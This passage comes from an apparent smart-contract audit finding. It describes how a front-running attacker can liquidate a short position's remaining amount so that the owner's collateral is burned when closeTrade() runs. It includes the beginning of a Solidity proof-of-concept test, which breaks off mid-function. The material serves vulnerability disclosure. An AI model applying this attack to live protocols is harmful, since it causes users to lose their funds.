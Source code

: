 In the scenario above, Alice loses the remaining collateral in her short position as it is burned after `closeTrade()` executes.

Note that this attack is possible as long as an attacker can liquidate the position's remaining short amount. For example, if Alice calls `closeTrade()` with 70% of the position's short amount, Bob only has to liquidate 30% of its short amount.

**Coded PoC**

The code below contains three tests that demonstrates the scenarios above:

1.  `testCloseBurnsCollateral()`
2.  `testLiquidateBurnsCollateral()`
3.  `testAttackerFrontrunLiquidateBurnsCollateral()`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

import {TestSystem, Exchange, ShortToken, ShortCollateral, MockERC20Fail} from "./utils/TestSystem.sol";

contract PositionWithCollateralBurned is TestSystem {
    // Protocol contracts
    Exchange private exchange;
    ShortToken private shortToken;
    ShortCollateral private shortCollateral;

    // sUSD token contract
    MockERC20Fail private SUSD;

    // Intial base asset price
    uint256 private constant initialBaseAssetPrice = 1e18;

    // Users
    address private USER = user_1;
    address private ATTACKER = user_2;

    function setUp() public {
        // Deploy contracts
        deployTestSystem();
        initPool();
        initExchange();
        preparePool();

        exchange = getExchange();
        shortToken = getShortToken();
        shortCollateral = getShortCollateral();
        SUSD = getSUSD();

        // Set initial price for base asset
        setAssetPrice(initialBaseAssetPrice);

        // Mint sUSD for USER
        SUSD.mint(USER, 1e20);

        // Mint powerPerp for ATTACKER
        vm.prank(address(exchange));
        getPowerPerp().mint(ATTACKER, 1e20);
    }

    function testCloseBurnsCollateral() public {
        // Open short position
        uint256 shortAmount = 1e18;
        uint256 collateralAmount = 1e15;
        uint256 positionId = openShort(shortAmount, collateralAmount, USER);
```